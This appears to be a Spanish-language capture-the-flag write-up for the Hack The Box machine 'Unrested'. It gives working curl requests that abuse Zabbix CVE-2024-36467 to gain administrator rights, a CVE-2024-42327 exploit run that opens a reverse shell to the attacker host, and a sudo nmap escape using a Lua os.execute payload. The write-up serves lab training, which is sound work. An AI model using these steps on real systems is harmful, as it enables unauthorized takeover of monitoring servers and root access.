






## Box Info

| Name                  | Unrested       | 
| :-------------------- | ---------------: |
| Release Date          | 05 Dec, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Medium           |


```bash
ping -c 3 10.10.11.50
PING 10.10.11.50 (10.10.11.50) 56(84) bytes of data.
64 bytes from 10.10.11.50: icmp_seq=1 ttl=63 time=130 ms
64 bytes from 10.10.11.50: icmp_seq=2 ttl=63 time=130 ms
64 bytes from 10.10.11.50: icmp_seq=3 ttl=63 time=133 ms
```

As is common in real life pentests, you will start the Unrested box with credentials for the following account on Zabbix: matthew / 96qzn0h2e1k3

## Recon

**Commands**
```bash
sudo nmap -p- --open --min-rate 5000 -n -vv -Pn 10.10.11.50 -oG allPorts
nmap -sCV -p 22,80,10050,10051 10.10.11.50 -oN targeted
```

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-21 15:45 EDT
Nmap scan report for 10.10.11.50
Host is up (0.13s latency).

PORT      STATE SERVICE             VERSION
22/tcp    open  ssh                 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http                Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
10050/tcp open  tcpwrapped
10051/tcp open  ssl/zabbix-trapper?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
whatweb http://10.10.11.50

http://10.10.11.50 [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.10.11.50], Meta-Refresh-Redirect[/zabbix/]
http://10.10.11.50/zabbix/ [200 OK] Apache[2.4.52], Cookies[zbx_session], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], HttpOnly[zbx_session], IP[10.10.11.50], Meta-Author[Zabbix SIA], PasswordField[password], Script, Title[Unrested: Zabbix], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-UA-Compatible[IE=Edge], X-XSS-Protection[1; mode=block]
```



[CVE-2024-36467](https://www.cve.news/cve-2024-36467/)
## CVE-2024-36467

Zabbix ofrece un endpoint de API llamado user.update, diseñado para, entre otras cosas, permitir que los usuarios actualicen sus datos (como su correo electrónico).

El problema: La API no comprueba correctamente los permisos cuando solicitas añadirte a otro grupo. Si puedes acceder a la API, puedes simplemente decir: "Hola Zabbix, ahora soy administrador" y funciona.

¡Ni siquiera necesitas ser administrador (todavía)!
Basta con un usuario autenticado (con sesión iniciada) con acceso a la API.

[Github - zabbix-api](https://github.com/zabbix/zabbix/blob/7.0.0/ui/include/classes/api/services/CUser.php#L25)

[GHSA-xwvj-c6cj-6xgw](https://github.com/advisories/GHSA-xwvj-c6cj-6xgw)

[Manual-ZABBIX-API](https://www.zabbix.com/documentation/current/en/manual/api)



Vemos que el id es el mismo para este usuario


```bash
curl -X POST "http://10.10.11.50/zabbix/api_jsonrpc.php" -H 'Content-Type: application/json-rpc' -d '{"jsonrpc":"2.0","method":"user.login","params":{"username":"matthew","password":"96qzn0h2e1k3"},"id":1}'
```

```bash
{"jsonrpc":"2.0","result":"8b3aab735a8b24aab283e058d94fedb5","id":1}
```

 ```
4ec470db7e8f1e03a8d9b9348ca1f9def6bd115c46870af5fc20d0633b189aca
```



[Default ID 7 Group Admin](https://www.rubydoc.info/gems/zabx)

```bash
    7 → Zabbix administrators (Administradores)
```

```bash
curl -X POST "http://10.10.11.50/zabbix/api_jsonrpc.php" -H 'Content-Type: application/json-rpc' -d '{"jsonrpc":"2.0","method":"user.update","params":{"userid":"3","usrgrps":[{"usrgrpid":"13"},{"usrgrpid":"7"}]},"auth":"4ec470db7e8f1e03a8d9b9348ca1f9def6bd115c46870af5fc20d0633b189aca","id":1}'
```

```json
{
  "jsonrpc": "2.0",
  "result": {
    "userids": [
      "3"
    ]
  },
  "id": 1
}
```

Ahora intentamos listar todos los usuarios.

```bash
curl -X POST "http://10.10.11.50/zabbix/api_jsonrpc.php" -H 'Content-Type: application/json-rpc' -d '{"jsonrpc":"2.0","method":"user.get","params":{"output":["userid"],"selectUsrgrps":["usrgrpid","name"],"filter": {"alias":"matthew"}}, "auth":"4ec470db7e8f1e03a8d9b9348ca1f9def6bd115c46870af5fc20d0633b189aca","id":1}' | jq
```

```json
{
  "jsonrpc": "2.0",
  "result": [
    {
      "userid": "1",
      "usrgrps": [
        {
          "usrgrpid": "7",
          "name": "Zabbix administrators"
        },
        {
          "usrgrpid": "13",
          "name": "Internal"
        }
      ]
    },
    {
      "userid": "2",
      "usrgrps": [
        {
          "usrgrpid": "13",
          "name": "Internal"
        }
      ]
    },
    {
      "userid": "3",
      "usrgrps": [
        {
          "usrgrpid": "7",
          "name": "Zabbix administrators"
        },
        {
          "usrgrpid": "13",
          "name": "Internal"
        }
      ]
    }
  ],
  "id": 1
}
```

## CVE-2024-42327

https://github.com/compr00t/CVE-2024-42327



https://github.com/BridgerAlderson/Zabbix-CVE-2024-42327-SQL-Injection-RCE

```bash
python3 exploit.py

API URL: http://10.10.11.50/zabbix/api_jsonrpc.php
username: matthew
password: 96qzn0h2e1k3
lhost (local ip address for reverse shell): 10.10.14.18
lport (port number for reverse shell): 4444
Authenticating...
Login successful! Auth token: c1f7a918b1b81abe6ef355ccbee3159a
Starting data extraction...
Extracting admin session: 98b39bcb942358c651a90ebb2a900ace
Admin session extracted: 98b39bcb942358c651a90ebb2a900ace
host.get response: {'jsonrpc': '2.0', 'result': [{'hostid': '10084', 'host': 'Zabbix server', 'interfaces': [{'interfaceid': '1'}]}], 'id': 1}
Reverse shell command executed successfully.
```



```bash
sudo -l

Matching Defaults entries for zabbix on unrested:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zabbix may run the following commands on unrested:
    (ALL : ALL) NOPASSWD: /usr/bin/nmap *
```

## Privilege Escalation

```bash
zabbix@unrested:/home/matthew$ nmap --interactive
Interactive mode is disabled for security reasons.
```

```bash
zabbix@unrested:/home/matthew$ echo 'os.execute("/bin/bash -p")' > test.sh
```

```bash
zabbix@unrested:/home/matthew$ nmap -p --script test.sh

Script mode is disabled for security reasons.
```

#### Wrapper Bash

```bash
which nmap

/usr/bin/nmap

zabbix@unrested:/home/matthew$ cat /usr/bin/nmap

#!/bin/bash

#################################
## Restrictive nmap for Zabbix ##
#################################

# List of restricted options and corresponding error messages
declare -A RESTRICTED_OPTIONS=(
    ["--interactive"]="Interactive mode is disabled for security reasons."
    ["--script"]="Script mode is disabled for security reasons."
    ["-oG"]="Scan outputs in Greppable format are disabled for security reasons."
    ["-iL"]="File input mode is disabled for security reasons."
)

# Check if any restricted options are used
for option in "${!RESTRICTED_OPTIONS[@]}"; do
    if [[ "$*" == *"$option"* ]]; then
        echo "${RESTRICTED_OPTIONS[$option]}"
        exit 1
    fi
done

# Execute the original nmap binary with the provided arguments
exec /usr/bin/nmap.original "$@"
```

[Motor de scripts de Nmap](https://nmap-org.translate.goog/book/nse-usage.html?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc)

```bash
echo 'os.execute("/bin/bash")' > test.sh
```

```bash
sudo nmap -sC --datadir=/tmp
```

